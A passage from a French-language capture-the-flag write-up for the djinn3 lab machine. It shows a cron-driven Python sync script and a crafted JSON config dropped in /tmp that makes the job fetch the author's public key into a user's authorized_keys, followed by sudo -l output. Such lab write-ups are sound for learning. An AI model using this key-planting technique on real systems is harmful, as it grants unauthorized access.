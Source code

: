 et celui-ci :

```python
from configuration import *
from connectors.ftpconn import *
from connectors.sshconn import *
from connectors.utils import *

def main():
    """Main function
    Cron job is going to make my work easy peasy
    """
    configPath = ConfigReader.set_config_path()
    config = ConfigReader.read_config(configPath)
    connections = checker(config)
    if 'FTP' in connections:
        ftpcon(config['FTP'])
    else:
        if 'SSH' in connections:
            sshcon(config['SSH'])
        else:
            if 'URL' in connections:
                sync(config['URL'], config['Output'])


if __name__ == '__main__':
    main()
```

Ok, donc le programme regarde dans `/tmp` si il y a des fichiers JSON nommés de la forme `jour-mois-année.config.json`, la date devant être plus récente qu'un fichier de référence que l'on ne connait pas. Je vais donc choisir `23-11-2022.config.json` soit demain au moment de ces lignes.

Le contenu du fichier JSON est alors chargé et différentes méthodes sont appelées en fonction de ce qui est présent dans le fichier.

Il reste à savoir ce que l'on met dedans. J'ai d'abord essayé de deviner ce que je pouvais mettre dans l'entrée `FTP` (URL du type `ftp://ip:port/` ou dictionnaire avec ip, port, etc ?) mais ça n'a rien donné.

Finalement j'ai utilisé la dernière option qui est assez explicite. L'objectif est de placer notre clé publique SSH dans le fichier `authorized_keys` de l'utilisateur :

```json
{
        "URL": "http://127.0.0.1:8000/authorized_keys",
        "Output": "/home/saint/.ssh/authorized_keys"
}
```

J'ai fait tourner `python -m http.server` sur la VM pour servir le fichier comme ça je suis sûr qu'il n'y aura pas une règle de pare-feu qui bloque.

Une fois la tache cron exécutée je peux me connecter avec le compte `saint` :

```shellsession
saint@djinn3:~$ sudo -l
Matching Defaults entries for saint on djinn3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User saint may run the following commands on djinn3:
    (root) NOPASSWD: /usr/sbin/adduser, !/usr/sbin/adduser * sudo, !/usr/sbin/adduser * admin
```
